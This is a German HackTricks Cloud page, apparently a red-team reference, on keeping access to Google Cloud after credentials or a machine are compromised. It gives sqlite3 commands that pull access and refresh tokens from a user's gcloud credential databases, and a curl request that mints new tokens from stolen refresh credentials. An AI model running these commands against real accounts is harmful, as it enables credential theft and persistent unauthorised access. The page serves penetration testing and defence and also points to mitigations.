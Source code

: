 # GCP - Nicht-svc Persistenz

<details>

<summary><strong>Erlernen Sie AWS-Hacking von Grund auf mit</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Andere Möglichkeiten, HackTricks zu unterstützen:

* Wenn Sie Ihr **Unternehmen in HackTricks beworben sehen möchten** oder **HackTricks im PDF-Format herunterladen möchten**, überprüfen Sie die [**ABONNEMENTPLÄNE**](https://github.com/sponsors/carlospolop)!
* Holen Sie sich das [**offizielle PEASS & HackTricks-Merch**](https://peass.creator-spring.com)
* Entdecken Sie [**The PEASS Family**](https://opensea.io/collection/the-peass-family), unsere Sammlung exklusiver [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Treten Sie der** 💬 [**Discord-Gruppe**](https://discord.gg/hRep4RUj7f) oder der [**Telegram-Gruppe**](https://t.me/peass) bei oder **folgen** Sie uns auf **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Teilen Sie Ihre Hacking-Tricks, indem Sie PRs an die** [**HackTricks**](https://github.com/carlospolop/hacktricks) und [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) Github-Repositorys einreichen.

</details>

Diese Techniken sind nützlich, sobald Sie auf irgendeine Weise einige GCP-Anmeldeinformationen oder eine Maschine in einer GCP-Umgebung kompromittiert haben.

## Token-Hijacking

### Authentifizierte Benutzertoken

Um das **aktuelle Token** eines Benutzers zu erhalten, können Sie Folgendes ausführen:

{% code overflow="wrap" %}
```bash
sqlite3 ./.config/gcloud/access_tokens.db "select access_token from access_tokens where account_id='<email>';"
```
{% endcode %}

Überprüfen Sie auf dieser Seite, wie Sie **diesen Token direkt mit gcloud verwenden können**:

{% embed url="https://book.hacktricks.xyz/pentesting-web/ssrf-server-side-request-forgery/cloud-ssrf#id-6440-1" %}

Um die Details zum **Generieren eines neuen Zugriffstokens** zu erhalten, führen Sie aus:

{% code overflow="wrap" %}
```bash
sqlite3 ./.config/gcloud/credentials.db "select value from credentials where account_id='<email>';"
```
{% endcode %}

Um einen neuen aktualisierten Zugriffstoken mit dem **Auffrischungstoken**, der Client-ID und dem Client-Geheimnis zu erhalten, führen Sie Folgendes aus:

{% code overflow="wrap" %}
```bash
curl -s --data client_id=<client_id> --data client_secret=<client_secret> --data grant_type=refresh_token --data refresh_token=<refresh_token> --data scope="https://www.googleapis.com/auth/cloud-platform https://www.googleapis.com/auth/accounts.reauth" https://www.googleapis.com/oauth2/v4/token
```
{% endcode %}

Die Gültigkeit der Aktualisierungstoken kann in **Admin** > **Sicherheit** > **Google Cloud-Sitzungssteuerung** verwaltet werden, und standardmäßig ist sie auf 16 Stunden eingestellt, obwohl sie auf "nie ablaufen" eingestellt werden kann:

<figure><img src="../../../.gitbook/assets/image (2) (1).png" alt=""><figcaption></figcaption></figure>

### Dienstkonten

Genau wie bei authentifizierten Benutzern, wenn es Ihnen gelingt, die **private Schlüsseldatei** eines Dienstkontos zu **kompromittieren**, werden Sie in der Regel **solange darauf zugreifen können, wie Sie möchten**.\
Wenn Sie jedoch das **OAuth-Token** eines Dienstkontos stehlen, kann dies noch interessanter sein, denn auch wenn diese Tokens standardmäßig nur eine Stunde lang gültig sind, bleibt das **OAuth-Token gültig, bis es abläuft**, selbst wenn das Opfer den privaten API-Schlüssel löscht.

### Metadaten

Offensichtlich können Sie solange Sie sich in einer Maschine befinden, die in der GCP-Umgebung läuft, auf das Dienstkonto zugreifen, das mit dieser Maschine verbunden ist, indem Sie den Metadaten-Endpunkt kontaktieren (beachten Sie, dass die OAuth-Tokens, auf die Sie in diesem Endpunkt zugreifen können, normalerweise durch Berechtigungen eingeschränkt sind).

### Abhilfemaßnahmen

Einige Maßnahmen zur Behebung dieser Techniken werden unter [https://www.netskope.com/blog/gcp-oauth-token-hijacking-in-google-cloud-part-2](https://www.netskope.com/blog/gcp-oauth-token-hijacking-in-google-cloud-part-2) erläutert.

## Referenzen

* [https://www.netskope.com/blog/gcp-oauth-token-hijacking-in-google-cloud-part-1](https://www.netskope.com/blog/gcp-oauth-token-hijacking-in-google-cloud-part-1)
* [https://www.netskope.com/blog/gcp-oauth-token-hijacking-in-google-cloud-part-2](https://www.netskope.com/blog/gcp-oauth-token-hijacking-in-google-cloud-part-2)

<details>

<summary><strong>Erlernen Sie AWS-Hacking von Grund auf mit</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Andere Möglichkeiten, HackTricks zu unterstützen:

* Wenn Sie Ihr **Unternehmen in HackTricks beworben sehen** oder **HackTricks im PDF-Format herunterladen** möchten, überprüfen Sie die [**ABONNEMENTPLÄNE**](https://github.com/sponsors/carlospolop)!
* Holen Sie sich das [**offizielle PEASS & HackTricks-Merch**](https://peass.creator-spring.com)
* Entdecken Sie [**The PEASS Family**](https://opensea.io/collection/the-peass-family), unsere Sammlung exklusiver [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Treten Sie der** 💬 [**Discord-Gruppe**](https://discord.gg/hRep4RUj7f) oder der [**Telegram-Gruppe**](https://t.me/peass) bei oder **folgen** Sie uns auf **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Teilen Sie Ihre Hacking-Tricks, indem Sie PRs an die** [**HackTricks**](https://github.com/carlospolop/hacktricks) und [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub-Repositories einreichen.

</details>
